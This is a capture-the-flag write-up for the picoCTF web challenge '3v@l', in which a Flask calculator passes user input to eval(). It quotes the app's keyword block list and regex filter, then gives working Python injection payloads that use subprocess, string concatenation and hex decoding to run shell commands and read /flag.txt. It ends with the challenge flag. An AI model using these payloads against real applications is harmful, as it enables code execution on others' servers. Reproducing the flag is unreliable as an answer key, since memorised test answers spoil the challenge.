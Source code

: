 # 3v@l 🕸️

> Category: Web Exploitation 🕸️

![img](challenge.png)

> Hints:
>1. Bypass regex
>2. The flag file is /flag.txt
>3. You might need encoding or dynamic construction to bypass restrictions.

![img](site.png)

Basically, this site function as a bank-loan calculator. We can try to test what the output will look like

![img](example.png)

In this example, I use **5*2** which expected to be **10** as the result.

![img](result.png)

First, we need to check the source code of the challenge.

```html
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```

Breakdown of the regex:
```
1. 0x[0-9A-Fa-f]+ : Prevent user to encode data in hex (0x123...) format to bypass the regex.
2. \\u[0-9A-Fa-f]{4} : Block unicode-based (\u00..) encoding tricks.
3. %[0-9A-Fa-f]{2} : Prevents encoding characters (%2F) to bypass the regex.
4. \.[A-Za-z0-9]{1,3}\b : Blocks access to files with extension (.sh or .txt or etc).
5. [\\\/] : Block \ and /.
6. \.\. : Prevents directory traversal (../).
```
So, we need to bypass this regex.

## Solution

We know that it is a **python flask** and we need to find some payload to bypass the **eval** function.

Due to **os** has been blocked, we try to use this payload template and insert command as needed:

```
__import__('subprocess').getoutput('commmand_here')
```

First, try to check the directory by using **ls** command but change a bit to bypass the blocked keyword:

```
__import__('subprocess').getoutput('l'+'s')
```

![img](payload1.png)

There we go, there is an output to the changed command.

From the given hint, the flag file is **/flag.txt**.

Next, we need to view the content of the **/flag.txt**, however **/**, **.txt** and **cat** command are blocked by the regex.

But, we can try to encode the **/flag.txt** to hex using this website https://www.rapidtables.com/convert/number/ascii-to-hex.html and we get
>2F 66 6C 61 67 2E 74 78 74 

We also can try to change the **cat** command like we did before to craft our final payload as:

```python
__import__('subprocess').getoutput('c'+'at ' + bytes.fromhex('2f666c61672e747874').decode())
```

## 🏳️Flag:
> picoCTF{D0nt_Use_Unsecure_f@nctions6798a2d8}